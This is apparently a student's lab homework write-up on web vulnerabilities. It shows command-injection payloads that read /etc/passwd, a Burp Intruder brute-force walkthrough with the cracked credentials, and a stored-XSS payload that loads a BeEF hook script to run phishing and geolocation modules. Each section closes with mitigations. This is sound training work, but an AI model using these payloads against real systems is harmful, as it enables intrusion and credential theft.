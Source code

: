 ### Week 15 Homework: Web Vulnerabilities and Hardening Homework

#### Web Application 1: *Your Wish is My Command Injection*

Access Vagrant and open a browser.

Launch Vagrant from GitBash and run the following command:

`cd ./Documents/web-vulns && docker-compose up`

Leave this page open and continue to the next step.

Open Chrome, navigate to the following web page:

`http://192.168.13.25`

Log in with the following credentials:

- User name: `admin`
- Password: `password`

Select the `Command Injection` option from the left menus.

Using the dot-dot-slash `../` method five times to design two payloads that will display the contents of the following files:

- `8.8.8.8 && cat ../../../../../etc/passwd`
![cat ../../../../../etc/passwd](images/passwd.png "cat ../../../../../etc/passwd")

- `8.8.8.8 && cat ../../../../../etc/hosts`
![cat ../../../../../etc/hosts](images/hosts.png "cat ../../../../../etc/hosts")

**Recommended mitigation strategies:**

- Server-side validation so unintended files aren't shown to the general public
- Confidential files should not be accesible onb the diorectories in this server. We need to segregate those files so they arent easible accesible tro unauthorized people.
- Permissions to restrict web server account accessibility.

#### Web Application 2: *A Brute Force to Be Reckoned With*

Run this command `sudo burpsuite` in Vagrant command line.

Open Firefox which was already installed `FoxyProxy` add-on extension in class activities.
![](images/bwapp.png)

In Burpsuite, I got following intercept data:

```
Request to http://192.168.13.35:80
```
```
POST /ba_insecure_login_1.php HTTP/1.1
Host: 192.168.13.35
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Connection: close
Referer: http://192.168.13.35/ba_insecure_login_1.php
Cookie: PHPSESSID=l998k837fiaj3b5c1o8kcsf0m6; security_level=0
Upgrade-Insecure-Requests: 1

login=test-user&password=password&form=submit
```

![Proxy Intercept results](images/intercept.png)

- Send above Proxy intercept results to Intruder. Click `Intruder` tab;
- Verify `Target`;

![Intruder Target](images/intruder-target.png)

- Setup `Positions`, select attack type `Cluster bomb`; 
- Configure and add `login` and `password` as positions.

![Intruder Positions](images/intruder-positions.png) 

- Click `Payloads` tab, choose `Payload` type as `Simple list`;
- Add login user ID from `List of Administrators` file into Payload set 1;
- Add password from `Breached list of Passwords` file into Payload set 2;

![Intruder Payloads](images/intruder-payloads.png)

- Click `Start attack`

After analysis of intruder attack results, the login username/password combination of "**`tonystark`**" and "**`I am Iron Man`**" did result in a successful login. The page displays `Successful login! You really are Iron Man :)`.

![Intruder Results](images/intruder-results.png)

Recommended mitigation strategies:

- Mitigations can include requiring complex usernames and passwords
- Enabling MFA (multi-factored authentication)
- Enabling a lockout after a certain amount of failed login attempts.

#### Web Application 3: *Where's the BeEF?*

**Step 1, Prepare Replicants website**

Inside Vagrant, go to this folder, run command:
`~/Documents/web-vulns$ docker-compose up`

Go to this website:
`http://192.168.13.25/vulnerabilities/xss_s/`

Reset db and login again.
Username: `admin`
Password: `password`

**Step 2, Setup BeEF**

On Vagrant, open a command line and run the following command: `sudo beef`

When prompted for a password, enter `cybersecurity`.

To access the BeEF GUI, right-click the first URL `UI_URL: http://127.0.0.1:3000/ui/panel` and select Open Link.

When the BeEF webpage opens, login with the following credentials:

Username: `beef`
Password: `feeb`

**Step 3, Find BeEF hook and write payload**

```
BeEF hook: http://127.0.0.1:3000/hook.js

Playload: <script src="http://127.0.0.1:3000/hook.js"></script>
```

**Step 4, Inject this payload**

One issue was found: in the message box field, there only has maxlength="50" in original source code, therefore we can not input the whole payload code.
![](images/maxlength-50.png)

Solution: Right-clicking on web page and selecting "Inspecting the Element". Change as `maxlength="100"`, or just delete this code limit.

![](images/maxlength-100.png)

**Step 5, A couple BeEF exploits**

Social Engineering >> Pretty Theft

![Pretty Theft - Facebook](images/pretty-theft.png)

![Pretty Theft - LinkedIn](images/pretty-theft-2.png)

Social Engineering >> Fake Notification Bar

![Fake Notification Bar](images/fake-notification-bar.png)

Host >> Get Geolocation (Third Party)

![Get Geolocation (Third Party)](images/get-geolocation.png)

#### Recommended mitigation strategies

- A common method of mitigating cross-site scrippting is by implementing "Input Validation"
- With input validation, a regular user wont be able to exploit the site since the server will evaluate the request and respond with only allowed information instead of displaying confidential info. 
